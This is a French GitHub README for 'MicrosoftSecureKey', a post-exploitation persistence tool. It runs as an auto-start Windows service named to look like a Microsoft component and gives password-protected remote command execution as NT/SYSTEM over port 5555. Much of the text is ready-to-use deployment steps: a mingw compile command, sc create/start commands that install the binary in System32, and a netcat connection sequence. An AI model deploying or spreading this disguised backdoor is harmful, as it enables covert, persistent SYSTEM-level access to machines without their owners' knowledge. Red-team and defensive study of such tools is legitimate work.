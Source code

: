 # MicrosoftSecureKey

🔍 MicrosoftSecureKey est un outil de post-exploitation (Pentest ou Read Team) qui permet le maintien d'accès sur un système Windows par le biais d'un mot de passe.
Il fonctionne en mode service Windows, ce qui permet d'ouvrir un port et d'exécuter des commandes à distance avec des droits NT/SYSTEM.

Comment ça marche :

 ✅ Compilation du programme 
 ✅ Installation du service sur le système distant
 ✅ Démarrage du service en mode AUTO
 ✅ Un simple netcat permet d'éxécuter des commandes.

 ⚠️ Une fois le mot de passe saisi, s'il y a un double saut de ligne cela veut dire que l'on est connecté, s'il y a un seul saut de ligne cela veut dire que la connexion a échoué.

Idéal pour les environnements contrôlés, les laboratoires de test, ou pour les administrateurs système qui veulent garder la main à distance sans passer par des solutions complexes.

Compilation :

`x86_64-w64-mingw32-gcc -o MicrosoftSecureKey.exe MicrosoftSecureKey.c -lws2_32`

Installation :

`sc create MicrosoftSecureKey binPath="C:\Windows\System32\MicrosoftSecureKey.exe" start=auto`
`sc start MicrosoftSecureKey`

Command :
`nc IP_SRV 5555`
`Enter Password`
`whoami`


  ## Vidéo de démonstration 
  https://github.com/xnom0/MicrosoftSecureKey/blob/main/service_1080p_25fps_10pts.mkv
